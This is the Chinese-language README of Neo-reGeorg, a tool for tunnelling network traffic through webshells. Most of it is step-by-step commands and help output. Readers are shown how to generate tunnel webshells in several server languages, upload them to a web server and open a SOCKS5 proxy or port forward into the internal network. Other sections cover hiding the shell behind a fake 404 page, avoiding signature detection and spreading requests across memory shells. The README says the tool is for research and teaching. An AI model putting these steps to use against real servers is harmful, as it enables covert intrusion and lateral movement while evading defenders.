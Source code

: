 # Neo-reGeorg

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高可用性，避免特征检测
* 提高 tunnel 连接安全性
* 提高传输内容保密性
* 应对更多的网络环境场景下使用

> 此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！


## Version

5.0.1 - [版本修改日志](CHANGELOG.md)


## Features

* 传输内容经过变形 base64 加密，伪装成 base64 编码
* 采用 BLV (Byte-LengthOffset-Value) 数据格式传输数据
* 直接请求响应可定制化 (如伪装的404页面)
* HTTP Headers 可定制化
* 自定义 HTTP 响应码
* 多 URL 随机请求
* 服务端 DNS 解析
* 兼容 python2 / python3
* 服务端环境的高兼容性，如服务器不稳定、负载均衡下只在部分机器上部署了服务端等特殊情况
* (仅 php) 参考 [pivotnacci](https://github.com/blackarrowsec/pivotnacci) 实现单 Session 创建多 TCP 连接，应对部分负载均衡场景
* aspx/ashx/jsp/jspx 已不再依赖 Session，可在无 Cookie 等恶劣环境正常运行
* (非 php) 支持内网转发，应对负载均衡环境
* 支持进程形式启动服务端，应对更多场景


## Basic Usage

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.go
```

* **Step 2.**
使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```


## Advanced Usage

1. 支持生成的服务端，默认直接请求响应指定的页面内容 (如伪装的 404 页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端 WEB，需要设置代理才能访问
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需 Authorization 认证和定制的 Header 或 Cookie
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. 需要分散请求，可上传到多个路径上，如内存马
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

5. 开启内网转发，应对负载均衡
```ruby
$ python neoreg.py -k <you_password> -u <url> -r <redirect_url>
```

6. 使用端口转发功能，非启动 socks5 服务 ( 127.0.0.1:1080 -> ip:port )
```ruby
$ python neoreg.py -k <you_password> -u <url> -t <ip:port>
```

7. 支持创建进程另起 Neoreg 服务端，可应对恶劣的特殊环境 (自行脑补) :)
```ruby
$ go run neoreg_servers/tunnel.go 8000
$ python3 neoreg.py -k password -u http://127.0.0.1:8000/anysting
```

* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]
                     [--max-read-size KB]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      -c CODE, --httpcode CODE
                            Specify HTTP response code. When using -r, it is
                            recommended to <400 (default: 200)
      --read-buff Bytes     Remote read buffer (default: 513)
      --max-read-size KB    Remote max read size (default: 512)

# 连接服务端
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI [-r URL] [-R] [-t IP:PORT] -k KEY [-l IP]
                     [-p PORT] [-s] [-H LINE] [-c LINE] [-x LINE]
                     [--php-connect-timeout S] [--local-dns] [--read-buff KB]
                     [--read-interval MS] [--write-interval MS] [--max-threads N]
                     [--max-retry N] [--cut-left N] [--cut-right N]
                     [--extract EXPR] [-v]

    Socks server for Neoreg HTTP(s) tunneller (DEBUG MODE: -k debug)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -r URL, --redirect-url URL
                            Intranet forwarding the designated server (only
                            jsp(x))
      -R, --force-redirect  Forced forwarding (only jsp -r)
      -t IP:PORT, --target IP:PORT
                            Network forwarding Target, After setting this
                            parameter, port forwarding will be enabled
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address (default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port (default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            Proto://host[:port] Use proxy on given port
      --php-connect-timeout S
                            PHP connect timeout (default: 0.5)
      --local-dns           Use local resolution DNS
      --read-buff KB        Local read buffer, max data to be sent per POST
                            (default: 7, max: 50)
      --read-interval MS    Read data interval in milliseconds (default: 300)
      --write-interval MS   Write data interval in milliseconds (default: 200)
      --max-threads N       Proxy max threads (default: 400)
      --max-retry N         Proxy max threads (default: 10)
      --cut-left N          Truncate the left side of the response body
      --cut-right N         Truncate the right side of the response body
      --extract EXPR        Manually extract BODY content (eg:
                            <html><p>NEOREGBODY</p></html> )
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```


## Remind

* Mac OSX 上运行 `neoreg.py` 时，高并发请求会出现网络丢包情况，可通过 `ulimit -n 2560` 修改当前 shell 的 "最大文件打开数"



## License

GPL 3.0


## Stargazers over time

[![Stargazers over time](https://starchart.cc/L-codes/Neo-reGeorg.svg)](https://starchart.cc/L-codes/Neo-reGeorg)

<img align='right' src="https://profile-counter.glitch.me/neo-regeorg/count.svg" width="200">
